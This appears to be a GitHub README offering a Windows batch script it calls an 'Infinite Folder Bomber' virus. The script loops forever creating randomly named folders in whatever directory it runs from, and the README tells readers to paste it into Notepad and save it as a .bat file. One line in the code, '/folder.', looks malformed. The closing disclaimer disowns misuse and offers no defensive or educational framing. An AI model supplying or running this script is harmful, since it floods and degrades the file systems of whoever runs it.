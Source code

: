 # Infinite Folder Bomber Bat File Virus
This code will Create Unlimited Folders In That Directory, In Which Directory The Files are Executed After Executing The Files. 
<br>
<br>
# copy the following code in notepad and save that with .bat extention
```bat
@echo off
:x
md %random%
/folder.
goto x
```
# DisclaimerThis Is A Virus, Not A Toy. So Dont Mess With It. Do Not Try On Any Responsible Hardware. Try In Your Own Responsibility I Am Not Responsible Of Any Misuse Of It.

